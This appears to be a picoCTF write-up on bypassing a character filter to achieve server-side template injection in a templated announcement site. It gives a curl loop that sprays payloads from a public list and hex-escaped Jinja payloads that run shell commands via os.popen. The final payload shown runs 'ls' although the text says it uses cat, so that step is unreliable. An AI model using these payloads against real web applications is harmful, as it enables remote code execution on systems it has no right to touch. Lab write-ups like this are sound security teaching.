 # Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

# Solution

https://github.com/payloadbox/ssti-payloads

This is somewhat similar to the last challenge however when running this, `{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}`, or anything similar you will get this message: `Stop trying to break me >:(`

So when looking for easy workarounds you can just google SSTI paylods and come across this website: https://github.com/payloadbox/ssti-payloads

If you put the payload into a file you can just attempt each one:

`cat payload.txt | while read -r line; do curl -L -X POST -d "content=$line" http://shape-facility.picoctf.net:51355/; done`

However it times out at some point so by just looking through the payloads and testing out some you can come across this one:

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`

From there you can see that it gave code execution and now you can slightly modify it to list out current directory.

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`

That command shows this output: `__pycache__ app.py flag requirements.txt`. So since you know that the flag is called flag and in the current directory you can just use the cat command to get the flag:

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`

Flag: `picoCTF{sst1_f1lt3r_byp4ss_8b53...}`